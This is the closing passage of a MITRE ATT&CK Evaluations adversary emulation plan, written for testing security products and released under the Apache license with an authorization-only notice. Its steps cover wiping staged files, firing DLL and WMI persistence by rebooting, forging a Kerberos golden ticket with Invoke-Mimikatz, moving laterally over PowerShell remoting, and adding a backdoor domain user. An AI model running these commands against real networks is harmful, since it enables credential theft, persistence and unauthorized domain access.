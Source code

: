 **Note:** There's a known bug here with ETW (Invoke-ReflectivePEInjection patches a function on the fly that ETW invokes) so callback may die and hang

#### 19.B

1.  Execute `wipe "C:\Windows\Temp\WindowsParentalControlMigration.tmp"`

#### 19.C

1.  Execute `wipe "C:\Windows\Temp\WindowsParentalControlMigration\MITRE-ATTACK-EVALS.HTML"`

### Step 20 - Leverage Persistence

#### 20.A

1.  Execute `restart-computer -force`
2.  Existing 2 callbacks should die
3.  RDP and login to initial victim once it reboots
4.  Persistence mechanisms should fire on login (1 for DLL, 1 or more for WMI event subscription)

**Note:** You may need to repeat login process a few times (close and reopen RDP session) for WMI execute to fire

#### 20.B
    
1.  Interact with the SYSTEM PS callback (from WMI)
2.  Execute `klist purge`
3.  Load `Invoke-Mimikatz.ps1` (available at https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
4.  Execute `invoke-mimikatz -command '"kerberos::golden /domain:dmevals.local /sid:[SID] /rc4:[NTLM HASH] /user:mscott /ptt"'` using the SID and NTLM values from earlier
5.  Execute `klist` and confirm ticket is in cache
6.  Execute `Enter-PSSession [hostname of second workstation in domain]`
7.  Execute `Invoke-Command -ComputerName [hostname of second workstation in domain] -ScriptBlock {net user /add toby "pamBeesly<3"}`

## Liability / Responsible Usage

This content is only to be used with appropriate prior, explicit authorization for the purposes of assessing security posture and/or research.

## Notice

Copyright 2020 The MITRE Corporation

Approved for Public Release; Distribution Unlimited. Case Number 19-03607-2.

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

   http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

This project makes use of ATT&CK®

[ATT&CK Terms of Use](https://attack.mitre.org/resources/terms-of-use/)
